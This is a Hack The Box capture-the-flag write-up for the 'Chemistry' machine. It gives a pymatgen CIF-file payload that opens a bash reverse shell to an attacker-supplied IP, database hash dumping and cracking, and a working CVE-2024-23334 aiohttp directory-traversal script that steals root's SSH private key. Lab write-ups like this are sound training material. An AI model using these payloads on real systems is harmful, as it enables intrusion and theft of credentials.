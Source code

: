 ```yaml
---
clayout: ctf
title: Chemistry
date: 2024-10-24
image: /ctf/hack-the-box/machines/chemistry/info-card.png
type: Hack The Box

ctf:
    - name: Chemistry
      link: https://app.hackthebox.com/machines/631
      thumbnail: /ctf/hack-the-box/machines/chemistry/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/631
          thumbnail: /ctf/hack-the-box/machines/chemistry/pwned.png
---
```


## Enumeration

### Nmap

We start by running an Nmap scan to enumerate the open ports and services on the target:

```bash
nmap -A -T4 -p- 10.10.11.38
```

```bash
Nmap scan report for 10.10.11.38
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results, we identified two open ports:

- Port 22: SSH
- Port 5000: HTTP (running Werkzeug)

### Exploring HTTP - Port 5000

Upon visiting the website on port 5000, we see that it's a **Chemistry CIF Analyzer** that allows uploading and
analyzing **CIF** (Crystallographic Information File) files.

![Chemistry - Home](/ctf/hack-the-box/machines/chemistry/home-page.png)

After registering and logging in, we land on the dashboard, where users can upload CIF files for analysis.

![Chemistry - Dashboard](/ctf/hack-the-box/machines/chemistry/dashboard-page.png)

The website provides a sample CIF file:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

### Vulnerability Research

Researching the web, we came across
a [vulnerability report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) related
to the **pymatgen** library used by the application. This vulnerability allows **arbitrary code** execution by
manipulating CIF files.

## Exploitation

### Reverse Shell Payload

We exploit the **pymatgen** vulnerability by crafting a CIF file that triggers a reverse shell.

Here’s the payload:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

::: info
Make sure to replace `<ip>` with your IP address and listen on port **4444** using `nc -lvnp 4444`.
:::

### Gaining Access

After uploading the payload, we receive a reverse shell. In the `instance` directory, we find a **sqlite database file**.

We can inspect the database with the following commands:

```bash
sqlite3 database.db
SELECT * FROM user;
```

This reveals a list of users and password hashes:

```bash
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
...
```

### User Flag

We find the user rosa in the /home directory. To access her account, we crack her password hash
using [CrackStation](https://crackstation.net/).

![CrackStation - Password Cracker](/ctf/hack-the-box/machines/chemistry/crackstation.png)

::: info
We can also use `hashcat` or `john` to crack the password hash.
:::

Once the password is cracked, we can log in via SSH:

```bash
ssh rosa@10.10.11.38
rosa@chemistry:~$ cat user.txt
[user-flag]
```

## Privilege Escalation

### Local Enumeration

Running `(netstat -punta || ss --ntpu)` reveals that **port 8080** is open locally.

```bash{2}
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
```

The root user is running a **monitoring_site** Python script:

```bash
/usr/bin/python3.9 /opt/monitoring_site/app.py
```

### Accessing the Internal Web Application

To view the web application running on port 8080, we use SSH port forwarding:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

We then visit `http://localhost:8080` and use `whatweb` to identify the technology stack:

```plaintext
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

### Exploit (CVE-2024-23334)

We found that **aiohttp version 3.9.1** is vulnerable
to [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC), which allows directory traversal attacks. We can
use this exploit to access the root private key:

```bash
#!/bin/bash

url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

### Root flag

After retrieving the root private key, we log in as root:

```bash
ssh -i id_rsa root@10.10.11.38
root@chemistry:~# cat root.txt
[root-flag]
```

## References

- [GitHub - pymatgen vulnerability](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [CrackStation](https://crackstation.net/)
- [HackTrick - Open ports](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports)
- [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC)